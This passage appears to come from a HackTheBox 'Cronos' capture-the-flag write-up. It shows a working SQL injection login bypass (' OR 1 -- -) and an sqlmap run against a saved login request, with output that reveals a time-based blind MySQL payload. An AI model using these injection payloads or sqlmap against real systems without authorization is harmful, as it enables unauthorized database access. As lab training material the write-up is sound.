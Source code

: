 Trying `admin:admin` doesn’t work. Instead, I tried using some generic SQL injection payloads listed [here](https://github.com/payloadbox/sql-injection-payload-list).

The payload that worked was this `' OR 1 -- -`. This probably indicates that the server is using MySQL.

##### Alternative Method

Another way we could automate this process is to use `sqlmap`. To do so, we have to intercept the login request with Burp and save it to a file first, then run `sqlmap`.

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Cronos]
└─# cat login_request.txt
POST / HTTP/1.1
Host: admin.cronos.htb
Content-Length: 29
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://admin.cronos.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://admin.cronos.htb/
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: PHPSESSID=6e7ohtcagfddqgcaab5qor2ir5
Connection: close

username=admin&password=admin

┌──(root㉿shiro)-[/home/shiro/HackTheBox/Cronos]
└─# sqlmap -r login_request.txt --dbs --batch                          
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.6.4#stable}
|_ -| . [']     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 14:39:34 /2022-04-22/

[14:39:34] [INFO] parsing HTTP request from 'login_request.txt'
[14:39:34] [INFO] resuming back-end DBMS 'mysql' 
[14:39:34] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin' AND (SELECT 6061 FROM (SELECT(SLEEP(5)))JZOF) AND 'yAhh'='yAhh&password=admin
---
[14:39:34] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 16.10 or 16.04 (yakkety or xenial)
web application technology: Apache 2.4.18
back-end DBMS: MySQL >= 5.0.12
[14:39:34] [INFO] fetching database names
[14:39:34] [INFO] fetching number of databases
```